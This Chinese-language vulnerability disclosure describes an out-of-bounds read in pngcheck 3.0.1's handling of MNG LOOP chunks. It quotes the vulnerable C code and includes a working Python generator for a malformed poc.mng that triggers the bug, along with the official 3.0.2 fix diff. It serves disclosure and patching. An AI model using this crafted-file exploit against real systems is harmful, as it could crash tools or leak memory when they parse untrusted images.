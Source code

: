 ```yaml
---
tags: [Out-of-bounds Read]
---
```


# Vulns in pngcheck 3.0.1

## 漏洞概要

[pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html) 是一个用于验证 PNG / JNG / MNG 文件格式的命令行工具。该工具在处理 MNG LOOP 块时，由于未充分验证块大小 (`sz`)，导致缓冲区越界读取。

## 漏洞原理

源码地址：[http://www.libpng.org/pub/png/src/pngcheck-3.0.1.zip](http://www.libpng.org/pub/png/src/pngcheck-3.0.1.zip)

```c title="pngcheck.c" linenums="3809"
} else if (strcmp(chunkid, "LOOP") == 0) {
  if (png || jng) {
    printf("%s  LOOP not defined in %cNG\n", verbose? ":":fname,
      png? 'P':'J');
    set_err(kMinorError);
  } else if (sz < 5 || (sz > 6 && ((sz-6) % 4) != 0)) {
   printf("%s  invalid %slength\n",
      verbose? ":":fname, verbose? "":"LOOP ");
    set_err(kMajorError);
  }
  if (verbose && no_err(kMinorError)) {
    printf(":  nest level = %u\n    count = %lu, termination = %s\n",
      (unsigned)(buffer[0]), LG(buffer+1), sz == 5?
      termination_condition[0] :
      U2NAME(buffer[5] & 0x3, termination_condition));
      /* GRR:  not checking for valid buffer[1] values */
    if (sz > 6) {
      printf("    iteration min = %lu", LG(buffer+6));
      if (sz > 10) {
        printf(", max = %lu", LG(buffer+10));
        if (sz > 14) {
          long i, count = (sz-14) >> 2;

          printf(", signal number%s = %lu", (count > 1)? "s" : "",
            LG(buffer+14));
          for (i = 1;  i < count;  ++i)
            printf(", %lu", LG(buffer+14+(i<<2)));
        }
      }
      printf("\n");
    }
  }
  last_is_IDAT = last_is_JDAT = 0;
```

当 `sz` 大于缓冲区 `buffer` 的最大大小 `BS` (`32000`) 时，`for` 循环继续执行，造成越界读取。

## 漏洞复现

- POC 代码：[poc.py](https://github.com/13m0n4de/pngcheck-vulns/blob/main/vulns-3.0.1/poc.py)
- POC 图片：[poc.mng](https://github.com/13m0n4de/pngcheck-vulns/blob/main/vulns-3.0.1/poc.mng)

```python title="poc.py"
#!/usr/bin/env python3
"""
PNGCheck Vulnerability POC Generator
Generates POC file demonstrating buffer over-read
vulnerability in pngcheck 3.0.1
"""

import argparse
import pathlib
import zlib

from construct import Bytes, Const, GreedyRange, Int32ub, Struct, this

Chunk = Struct(
    "length" / Int32ub,
    "type" / Bytes(4),
    "data" / Bytes(this.length),
    "crc" / Int32ub,
)


MNG = Struct(
    "signature" / Const(b"\x8aM\x4e\x47\x0d\x0a\x1a\x0a"),
    "chunks" / GreedyRange(Chunk),
)


def create_chunk(chunk_type: bytes, chunk_data: bytes) -> dict:
    return {
        "length": len(chunk_data),
        "type": chunk_type,
        "data": chunk_data,
        "crc": zlib.crc32(chunk_type + chunk_data) & 0xFFFFFFFF,
    }


def generate_poc(output_path: pathlib.Path) -> None:
    # Command: pngcheck -v poc.mng
    chunks = [
        create_chunk(b"MHDR", b"\x00\x00\x00\x01\x00\x00\x00\x01" + b"\x00" * 20),
        create_chunk(
            b"LOOP",
            b"\x00"  # nest_level(1)
            + b"\x00\x00\x00\x01"  # iteration_count(4)
            + b"\x00"  # termination_condition(1)
            + b"\x00\x00\x00\x01" * 10000,  # Iteration_min(4) + ...
        ),
        create_chunk(b"MEND", b""),
    ]
    MNG.build_file(dict(chunks=chunks), output_path)


def main():
    parser = argparse.ArgumentParser(
        description=(
            "Generate POC files for pngcheck 3.0.1 buffer over-read "
            "vulnerability (unchecked chunk size in LOOP chunk)"
        )
    )
    parser.add_argument(
        "-o",
        "--output",
        type=pathlib.Path,
        default="poc.mng",
        help="Output file path (default: poc.mng)",
    )
    args = parser.parse_args()

    print("Generating POC...")
    generate_poc(args.output)
    print("POC file generated successfully")


if __name__ == "__main__":
    main()
```

```
$ ./pngcheck -v poc.mng
```

## 漏洞修复

官方在 v3.0.2 版本中通过添加 `sz > BS` 校验修复漏洞：

```diff
@@ -3815,8 +3815,12 @@
         printf("%s  invalid %slength\n",
           verbose? ":":fname, verbose? "":"LOOP ");
         set_err(kMajorError);
-      }
-      if (verbose && no_err(kMinorError)) {
+      } else if (sz > BS) {
+	/* FIXME: large LOOP chunks should be supported */
+        printf("%s  checking large %schunk not currently supported\n",
+          verbose? ":":fname, verbose? "":"LOOP ");
+        set_err(kMinorError);
+      } else if (verbose && no_err(kMinorError)) {
         printf(":  nest level = %u\n    count = %lu, termination = %s\n",
           (unsigned)(buffer[0]), LG(buffer+1), sz == 5?
           termination_condition[0] :
```

## 参考资料

- [pngcheck Home Page](http://www.libpng.org/pub/png/apps/pngcheck.html)
- [MNG (Multiple-image Network Graphics) Format](http://www.libpng.org/pub/mng/spec)
